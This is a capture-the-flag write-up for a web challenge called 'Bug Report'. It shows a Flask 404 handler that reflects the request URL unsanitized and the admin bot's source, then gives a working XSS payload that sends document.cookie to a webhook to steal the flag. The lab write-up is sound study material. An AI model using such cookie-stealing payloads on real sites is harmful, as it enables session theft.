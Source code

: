 # Bug Report

Challenge text:
```
They say humans shall not take control to any of their resources. Can you prove them wrong without letting them know.
```
Along with the [source code](web_bug_report).

The website had an input form, where you could submit a URL and it would visit the site, with the flag set as a cookie. As it was a samesite cookie, you would need an XSS on the host website to be able to get the cookie.

By looking at the source I notice that for the 404 page, the URL is embedded without any sanitizing:
```py
@app.errorhandler(404)
def page_not_found(error): 
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404
```
By going to `/<script>alert(1)</script>`, I get an alert.

So I send the bot to the website `http://188.166.145.178:30190/<script>window.location="http://webhook?c="+document.cookie;</script>` (url-encoded), but I don't recieve a cookie. I'm a bit confused, as the cookie should definitely be set. After looking at the bot's source for a while, I notice that the the cookie is set at `127.0.0.1:1337`, and not the external IP.
```py
browser.get('http://127.0.0.1:1337/')

browser.add_cookie({
    'name': 'flag',
    'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
})

try:
    browser.get(url)
```

By sending `http://127.0.0.1:1337/%3Cscript%3Ewindow.location%3d%22http%3a//webhook%3fc%3d%22%2bdocument.cookie%3b%3C/script%3E`, I recieve the flag.